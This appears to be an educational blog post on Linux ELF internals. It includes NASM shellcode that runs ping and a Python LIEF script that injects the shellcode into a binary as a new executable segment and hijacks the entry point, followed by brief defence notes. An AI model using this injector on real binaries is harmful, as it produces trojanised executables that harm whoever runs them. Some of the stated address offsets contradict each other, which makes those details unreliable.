



If you're curious how malware sneaks into Linux systems, bypasses traditional defenses, and runs without raising alarms—you’re in the right place. This blog is a deep dive into the Executable and Linkable Format (ELF), the backbone of all Linux binaries, and how it's abused by threat actors for stealth, persistence, and code execution.

We’ll start by demystifying the structure of ELF files—headers, segments, and sections—before showing you how malware leverages those same internals for evil. Then, you’ll get hands-on experience building and injecting shellcode using tools like LIEF and NASM. You’ll learn:

- How malware hides code in unused ELF sections

- How to build an actual injected binary that runs `/bin/ping -c 1 google.com`

- How defenders and blue teams detect, reverse, and mitigate ELF-based attacks

## What is ELF

According to Wikipedia "*The Executable and Linkable Format (ELF, formerly named Extensible Linking Format) is a common standard file format for executables, object code, shared libraries, and core dumps*"

I have explained in detail on how the elf uses linkers to execute dynamically and with shared libraries, if you are interested please check it out - https://anish833.github.io/posts/stealing-control-with-ld_preload/ 

## More about ELF Format

ELF binaries consist of three primary parts:

- ELF Header: Identifies the file and gives pointers to the Program and Section Header Tables.

- Program Header Table (PHT): Instructs the kernel how to load the binary into memory.

- Section Header Table (SHT): Describes sections used by compilers, linkers, and analysis tools.


### ELF Header

Located at the very start (offset 0)

Includes:

- File type (e.g., executable)
- Architecture (e.g., x86-64)
- Entry point address
- Offsets to PHT and SHT

**Malware use-case**: Modify entry point to redirect execution to injected shellcode.

### Program Header Table

Used by kernel and dynamic linker

Defines memory segments to load:

- PT_LOAD: Code/data segments

- PT_INTERP: Path to dynamic linker

- PT_DYNAMIC, PT_NOTE: Metadata and linking info

**Malware use-case**: Inject executable code by creating new PT_LOAD segments or hijacking PT_INTERP

### Section Header Table

Used for linking/debugging, not at runtime

Common sections:

- .text, .data, .bss, .rodata

- .init_array, .symtab, .strtab, .rela.plt

**Malware use-case**: Hide payloads in new or unused sections like .evil or .note.*. Abuse .init_array for pre-main() execution.

## Section vs Segments




## Anatomy of an ELF File



### Hands on Shell code injection

For this we will create our custom program which we can use to inject shellcode on a segment of the binary and walk our way through it

Let’s start with a simple C program that we’ll hijack using shellcode injection.

```c
#include <stdio.h>
int main() {
    printf("Hello from legit binary!\n");
    return 0;
}
```

And now we will compile it make sure your binary is compiled without PIE enabled (-no-pie), otherwise memory offsets will shift at runtime due to ASLR

```bash
gcc -no-pie -o victim victim.c
```

We have our binary `victim` now so lets create our shellcode, you can use pwntools or msfvenom to generate the shellcode for easier use but lets use assembly

```c
BITS 64
org 0x0

section .text
global _start

_start:
    mov rdi, 0x405014        ; pointer to "/bin/ping"
    mov rsi, 0x40502e        ; pointer to argv[]
    xor rdx, rdx             ; envp = NULL
    mov rax, 59              ; execve syscall
    syscall

section .data
cmd:    db "/bin/ping", 0
arg1:   db "-c", 0
arg2:   db "1", 0
arg3:   db "google.com", 0

argv:   dq 0x405014          ; argv[0] = &cmd
        dq 0x40501e          ; argv[1] = &arg1
        dq 0x405021          ; argv[2] = &arg2
        dq 0x405023          ; argv[3] = &arg3
        dq 0                 ; argv[4] = NULL
```
Okay here you can see ping is used. Here is a detailed breakdown on what is happening

```c
BITS 64
org 0x0

section .text
global _start
```

- `BITS 64`: Tells NASM we’re assembling 64-bit code.
- `org 0x0`: Assembles the code assuming it starts at virtual offset 0x0—important for absolute addressing later.
- `section .text`: Start of executable code.
- `global _start`: Entry point label.

The Execution starts here: 

```c
_start:
    mov rdi, 0x405014        ; pointer to "/bin/ping"
```

- `rdi` = 1st argument to `execve(filename, argv, envp)`

- `0x405014` is the virtual address of the cmd string (`"/bin/ping"`), as it will appear after injection in the final binary.

- This address must be calculated from our Python injection logic. For example, if your shellcode segment is injected at `0x405000`, and `cmd`: is 0x14 bytes in, then:

    ```
    0x405000 + 0x14 = 0x405014
    ```

We can check the python code later in the blog which will explain the injection and also hexdump must be use to get the offsets

```c
mov rsi, 0x40502e        ; pointer to argv[]
```

- `rsi` = 2nd argument to `execve()`: `argv` array of pointers

- `0x40502e` points to the memory where the argv array begins.

- Same logic: if `.data` is laid out like:

    ```c
    cmd     : 0x00
    arg1    : 0x0A
    arg2    : 0x0D
    arg3    : 0x0F
    argv[]  : 0x1E
    ```

then `0x405000 + 0x2E = 0x40502e` is where `argv[]` starts in memory.

```c
xor rdx, rdx             ; envp = NULL
```

- `rdx` = 3rd argument to `execve()`: environment pointer

- `xor` is used to zero `rdx` (faster than `mov rdx, 0`)

```c
mov rax, 59              ; execve syscall
syscall
```
- Linux syscall number `59` = `execve()` (Only on x86_64)

- `syscall` invokes the system call with `rdi`, `rsi`, and `rdx` as args

```c
section .data
cmd:    db "/bin/ping", 0
arg1:   db "-c", 0
arg2:   db "1", 0
arg3:   db "google.com", 0
```

These are null-terminated strings used by execve():

- `cmd` = program to run
- `arg1` = `-c`
- `arg2` = `1`
- `arg3` = `google.com`

```c
argv:   dq 0x405014          ; argv[0] = &cmd
        dq 0x40501e          ; argv[1] = &arg1
        dq 0x405021          ; argv[2] = &arg2
        dq 0x405023          ; argv[3] = &arg3
        dq 0                 ; argv[4] = NULL
```

- `dq` = “define quadword” (8-byte pointer).

- These are hardcoded absolute addresses pointing to the string locations above.

- Each address is computed as:

    ```java
    argv[0] = 0x405000 + offset of cmd     = 0x405014
    argv[1] = 0x405000 + offset of arg1    = 0x40501e
    ```

Please note that these addresses should be manually verified on the final shellcode, I have used hexdump to verify the same

And since we are using hardcoded addresses we should not use PIE. Position-independent (PIE), which means at runtime the code is relocated to a random address. This breaks shellcode that relies on absolute pointers like the one above.

Now lets use `nasm` to get our flat binary shellcode

```
nasm -f bin -o shellcode.bin ping.asm
```

Here NASM is an assembler, and -f bin means we want our shellcode in `bin` format and not another elf.

`ping.asm` would be your assembly shellcode and `shellcode.bin` will be the output file

Now lets write our python shellcode injector was built with a mix of custom logic and some AI support. Let’s break down what it does.

```python
import lief

binary = lief.parse("victim")
print("[*] Original entry point:", hex(binary.header.entrypoint))

# Load shellcode
with open("shellcode.bin", "rb") as f:
    shellcode = list(f.read())

# Find highest virtual address and file offset among LOAD segments
max_vaddr = 0
max_offset = 0
for seg in binary.segments:
    if seg.type == 1:  # PT_LOAD (manual)
        max_vaddr = max(max_vaddr, seg.virtual_address + seg.virtual_size)
        max_offset = max(max_offset, seg.file_offset + seg.physical_size)

# Align both to page boundary
aligned_vaddr = (max_vaddr + 0x1000) & ~0xfff
aligned_offset = (max_offset + 0x1000) & ~0xfff

# Create new segment manually
segment = lief.ELF.Segment()
segment.type = 1  # PT_LOAD
segment.flags = lief.ELF.Segment.FLAGS(5) # R + X → 0x1 | 0x4 = 0x5
segment.alignment = 0x1000
segment.virtual_address = aligned_vaddr
segment.file_offset = aligned_offset
segment.content = shellcode
segment.physical_size = len(shellcode)
segment.virtual_size = len(shellcode)

# Add the segment to binary
binary.add(segment)

# Patch the binary's entry point
binary.header.entrypoint = aligned_vaddr
print("[*] New entry point:", hex(aligned_vaddr))

# Write to disk
binary.write("infected")
print("[+] Infected binary written to 'infected'")
```

This Python code:

- Parses a legitimate ELF binary (`victim`)

- Loads custom shellcode from `shellcode.bin`

- Appends a new `executable segment` to hold the shellcode

- Redirects the `entry point` to the injected payload

- Writes a new infected ELF file (`infected`)

Now you can try running the `infected` binary which will run the `ping` command



As you can see we have successfully injected shellcode through PT_LOAD segment and hijacked an existing binary. You could also modify the shellcode to jump back to the original entry point, preserving the binary’s original behavior

In this example, we inject our shellcode by adding a new executable segment (PT_LOAD) — not a section. Segments are what the kernel maps into memory during execution, so shellcode injected here will run directly when the program starts

## Mitigation and Defenses

### Compiler Defenses:

- `RELRO`: Read-only relocations, Protects the GOT from being overwritten by making it read-only after program startup

- `Stack canaries`: Places a secret value before the return address to detect and stop stack buffer overflows.

- `NX`: Non-executable stack, Marks the stack as non-executable, preventing injected shellcode from running on the stack.

- `PIE + ASLR`: Randomized memory layout, Randomizes the base address of binaries to make memory-based exploits unreliable.


### Detection:

- Check for stripped section headers

- Look for suspicious segments or modified entry points

- Use checksec, YARA rules, antivirus behavior detection

## Conclusion

The ELF format gives Linux its powerful and flexible execution model — but that same power can be turned against it. Malware authors exploit ELF internals to hide code, hijack entry points, and persist stealthily, often bypassing conventional detection.

In this post, you saw how ELF headers, segments, and sections can be manipulated to inject shellcode — and how that shellcode can execute real commands like /bin/ping. From program headers to segment alignment and binary patching, we’ve covered the core techniques threat actors use in the wild.

Whether you're defending a production system, analyzing malware, or just exploring binary internals, understanding ELF is a crucial skill. The more familiar you are with the ways attackers twist this format, the better you’ll be at stopping them.


## Further Reading

1. HiddenWasp: Packed ELF with custom loader, encrypted payload
[Read More →](https://intezer.com/blog/hiddenwasp-malware-targeting-linux-systems/)

2. LIEF (Library to Instrument Executable Formats)
[Read More →](https://lief.re/doc/latest/formats/elf/index.html)


